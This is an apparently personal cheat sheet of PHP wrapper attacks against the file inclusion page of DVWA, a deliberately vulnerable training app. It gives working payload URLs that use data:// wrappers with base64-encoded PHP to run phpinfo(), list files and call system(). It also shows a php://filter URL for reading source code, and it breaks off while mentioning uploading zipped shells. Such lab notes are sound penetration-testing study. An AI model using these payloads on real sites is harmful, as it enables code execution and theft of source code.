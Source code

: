 ## PHP Wrappers

### Data
- PHP Info
	- ` http://192.168.0.104/dvwa/vulnerabilities/fi/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg== `

	- `PD9waHAgcGhwaW5mbygpOyA/Pg== ` is **Base64** encoded value for `<?php phpinfo(); ?>`
- List all files
	- `http://192.168.0.103/dvwa/vulnerabilities/fi/?page=data://text/plain;base64,PD9waHAgJGE9c2NhbmRpcigiLi8iKTtwcmludF9yKCRhKTsgPz4=`
	- `PD9waHAgJGE9c2NhbmRpcigiLi8iKTtwcmludF9yKCRhKTsgPz4=` is **Base64** encoded value for `<? php $a=scandir("./");print_r($a); ?>`
	- Same using system() `<?php system("dir"); ?>	->base64->	PD9waHAgc3lzdGVtKCJkaXIiKTsgPz4K`
	- `http://192.168.0.106/dvwa/vulnerabilities/fi/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCJkaXIiKTsgPz4K`

- 


### Filter

- A good way to get page's **Source Code**..
	- `http://192.168.0.106/dvwa/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=file1.php`

### ZIP

- We can upload zips with shell and execute them using this 